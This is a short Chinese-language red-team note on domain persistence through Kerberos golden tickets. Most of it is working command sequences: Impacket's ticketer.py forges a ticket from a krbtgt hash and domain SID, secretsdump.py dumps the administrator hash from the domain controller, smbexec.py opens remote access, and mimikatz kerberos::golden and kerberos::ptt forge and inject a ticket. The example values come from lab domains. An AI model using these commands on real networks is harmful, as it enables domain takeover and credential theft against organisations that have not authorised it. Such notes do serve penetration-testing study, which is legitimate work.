 # 域权限维持

## 票据传递



### 黄金票据

在 AS_REQ & AS_REP 中，用户使用自身 hash 加密时间戳发送给KDC，KDC验证成功后返回用krbtgt hash加密的TGT票据。如果我们有**krbtgt 的 hash**，就可以自己给自己签发任意用户的 tgt 票据。

这个生成黄金票据的过程是离线的，不需要与 KDC 交互



需要条件：

- krbtgt hash：4a67f14d5cc4fa22618c8b609e832db6
- 域的 SID：S-1-5-21-1359007890-1682372173-1631803504
- 域名：redteam.red 
- 域管理员：administrator



工具一：Impacket

```bash
#生成黄金票据
ticketer.py -domain-sid S-1-5-21-1359007890-1682372173-1631803504 -nthash 4a67f14d5cc4fa22618c8b609e832db6 -domain redteam.red administrator
#导入票据
export KRB5CCNAME=administrator.ccache
#导出用户 administrator 的 hash
secretsdump.py -k -no-pass administrator@owa.redteam.red -dc-ip 192.168.2.13 -just-dc-user administrator
#远程连接域控
smbexec.py -no-pass -k administrator@owa.redteam.red -dc-ip 192.169.2.13 -codec gbk
```



工具二：mimikatz

```bash
mimikatz.exe "kerberos::golden /admin:system /domain:cyberpeace.com /sid:S-1-5-21-97341123-1865264218-933115267 /krbtgt:95972cdf7b8dde854e74c1871f6d80a0 /ticket:ticket.kirbi" exit

/admin：伪造的用户名
/domain：域名称
/sid：SID值，注意是去掉最后一个-后面的值
/krbtgt：krbtgt的HASH值
/ticket：生成的票据名称    //不是写入内存中的命令！
```

登录域内普通用户，通过mimikatz中的kerberos::ptt功能将ticket.kirbi导入内存中。

```
mimikatz # kerberos::purge         
mimikatz # kerberos::ptt ticket.kirbi
```
